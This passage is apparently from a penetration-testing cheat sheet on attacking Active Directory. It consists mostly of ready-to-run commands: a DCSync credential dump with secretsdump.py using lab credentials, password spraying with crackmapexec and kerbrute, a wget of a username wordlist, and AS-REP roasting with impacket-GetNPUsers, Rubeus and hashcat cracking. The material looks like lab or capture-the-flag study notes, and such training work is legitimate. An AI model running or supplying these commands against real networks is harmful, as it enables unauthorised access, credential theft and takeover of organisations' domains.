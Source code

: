 -   Then check the permission : net group \'Exchange Windows
    > Permissions\'

-   Then running try dcsync attack using this command :

-   secretsdump.py svc-alfresco:s3rvice@10.10.10.161

# Attacking Active Directory Authentication

## **Password Spraying**

**\# Crackmapexec - check if the output shows \'Pwned!\' this indicates
that *user* has administrative privileges on the target system.**

\- crackmapexec smb \<IP or subnet\> -u users.txt -p \'pass\' -d
\<domain\> \--continue-on-success

\- crackmapexec winrm \<IP or subnet\> -u users.txt -p \'pass\' -d
\<domain\> \--continue-on-success

\- crackmapexec rdp \<IP or subnet\> -u users.txt -p \'pass\' -d
\<domain\> \--continue-on-success

\# Kerbrute

kerbrute passwordspray -d corp.com .\\usernames.txt \"pass\"

wget
https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

./kerbrute_linux_amd64 userenum \--dc EGOTISTICAL-BANK.local -d
EGOTISTICAL-BANK.local User.txt

## **AS-REP Roasting**

-   impacket-GetNPUsers -dc-ip \<DC-IP\> \<domain\>/\<user\>:\<pass\>
    > -request

-   impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile
    > hashes.asreproast corp.com/pete

-   .\\Rubeus.exe asreproast /nowrap #dumping from compromised windows
    > host

-   hashcat \--help \| grep -i \"Kerberos\"

-   hashcat -m 18200 hashes.txt wordlist.txt \--force \# cracking hashes

Or use this method

ASREPRoast is a security attack that exploits users who lack the
**Kerberos pre-authentication required attribute**.

[[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast]{.underline}](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

\- if port 389 is open, try use **ldapsearch** to enumeration user
